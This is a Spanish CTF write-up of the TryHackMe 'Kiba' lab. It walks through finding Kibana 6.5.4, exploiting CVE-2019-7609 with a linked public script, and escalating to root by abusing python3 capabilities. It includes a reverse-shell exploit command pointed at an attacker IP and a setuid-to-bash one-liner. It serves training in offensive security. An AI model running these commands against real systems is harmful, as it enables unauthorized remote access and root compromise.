



# Kiba WriteUp
Volver al [Indice](README.md)

Bueno, hoy os traigo una de las últimas, sino la última máquina creada en THM, su nombre es Kiba, en ella explotaremos una vulnerabilidad algo diferente (almenos para mí) es un software de monitorización, gráficos, etc.  
Está catalogada con un nivel de "Easy" aunque es bastante interesante esta máquina.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*
Como siempre, vamos a realizar un escaneo de los puertos, servicios y versiones para var con lo que tratamos.



Vemos que tiene el puerto 80 abierto con un apache pero no vemos nada relevante ahí.  
En el puerto 5601 vemos el nombre del aplicativo (Kibana), así que accedemos vía web y nos lleva directamente al dashboard de este, echamos un ojo por encima y vemos una pestaña llamada "Dev Tools" en la que podemos insertar código, vamos a buscar su versión.

En esta pestaña, colocamos  ```"GET /"```  para ver información del sistema y, como vemos, tiene la versión 6.5.4 instalada.



Hacemos una búsqueda por Google y encontramos que esta versión es vulnerable a un ataque llamado "Prototype Pollution", dejo el enlace donde encontré la vulnerabilidad.  
[Kibana 6.5.4 Vulnerability](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/#:~:text=The%20vulnerability%20was%20CVE%2D2019,Kibana%20versions%20before%205.6.&text=This%20could%20possibly%20lead%20to,process%20on%20the%20host%20system.)

Realizando diferentes pruebas con el Dashboard conseguí encontrar un exploit que automatiza directamente toda la explotación de esta vulnerabilidad y te da acceso directamente al sistema, dejo el enlace de este también.  
[CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)


## *# Explotación*
La sintáxis de este es muy sencilla.  
```python exploit.py -u "urlVíctima" -host "ipAtacante" -port "puertoEscucha" --shell```
* -u => Colocamos la URL del aplicativo "Kibana".
* -host => Colocamos la IP nuestra.
* -port => Colocamos el puerto que queremos poner en escucha.
* --shell => Para que nos saque una shell, si no lo ponemos solo nos diría si es o no vulnerable.



Y ya estaríamos dentro, podemos buscar la flag de user en su directorio habitual.


## *# Post-Explotación*
Como la misma sala nos da una pista de por donde pueden ir los tiros para escalar privilegios vamos a listar recursivamente los "capabilities" (los capabilities es una capa de "seguridad" dentro del sistema, permite a los usuarios usar una aplicación como "root", pero solo ese proceso, no teniendo que ser root en algunos casos y no exponiendo el sistema completamente...claro está que también puede llegar a ser una vulnerabilidad bastante obvia...lo vamos a ver) del sistema a ver si sacamos algo.


Dentro del directorio ".hackmeplease" (suena interesante ya de primeras, ¿no?) vemos que el binario de python3 tiene permisos de root y podemos ejecutarlo como vimos con los "capabilities", vamos a lanzarnos una shell a ver si conseguimos ROOT...  
```./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'```


Y una vez más..¡Somos ROOT!

